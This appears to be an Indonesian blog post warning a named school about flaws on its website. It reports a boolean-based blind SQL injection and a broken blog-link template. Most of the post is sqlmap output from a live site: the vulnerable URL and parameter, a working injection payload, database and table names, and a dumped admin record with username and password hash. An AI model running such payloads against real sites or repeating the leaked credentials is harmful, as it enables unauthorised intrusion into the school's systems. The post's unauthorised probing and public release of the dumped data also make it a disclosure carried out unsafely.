 +++
title = "BUG PADA WEBSITE [ CRITICAL ] / BERBAHAYA"
penulis = "Admin"
+++
Kepada YTH. BPK/IBU Guru SMP1KRAGAN

saya menemukan celah  SQLI BOOLEAN BASED di halaman lulus.smp1kragan.sch.id/index.php?page=carinisn

setelah saya test alhasil muncul INFORMASI database , segera di fix untuk mencegah webste Ter Hack. Berikut informasi yang saya dapatkan : 

![](https://jongnesia.com/tutorial/sqli.png)

```mysql
Database: u873893874_dblulus
[3 tables]
+------------+

| tb_student |

| tbl_profil |

| tbl_user   |

+------------+
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: nisn (POST)

    Type: boolean-based blind

    Title: AND boolean-based blind - WHERE or HAVING clause

    Payload: nisn=' OR '1' AND 9477=9477-- JuzH&SUBMIT=PERIKSA DATA
---

web application technology: PHP 7.4.33, LiteSpeed

back-end DBMS: active fingerprint: MySQL >= 5.7

               comment injection fingerprint: MySQL 5.6.52

               fork fingerprint: MariaDB

available databases [2]:
[*] information_schema
[*] u873893874_dblulus
Database: u873893874_dblulus
Table: tbl_user
[1 entry]
+---------+--------+----------------------------------+----------+
| id_user | nama   | pass                             | username 
+---------+--------+----------------------------------+----------+
| 0       | Taufiq | 918b5ec119b2e29bd5b2c7c09f39d2ae | admin    |
+---------+--------+----------------------------------+----------+ 
```





Cara Mengatasi Bug :

1. Di filter code bagian untuk cek nya , bisa tanya CHATGPT

2. atau di non aktifkan dulu aja subdomainya



BUG KE 2

![](https://jongnesia.com/tutorial/web.png)

pada tampilan utama website  smpn1kragan.sch.id , coba pencet salah satu postingan. maka akan error https://smp1kragan.sch.id/'.$base_url.'blog/'.$row_new_blog['post_id'].'-'.$row_new_blog['seotitle'].'.html . ini mungkin kesalahan codingan nya. 












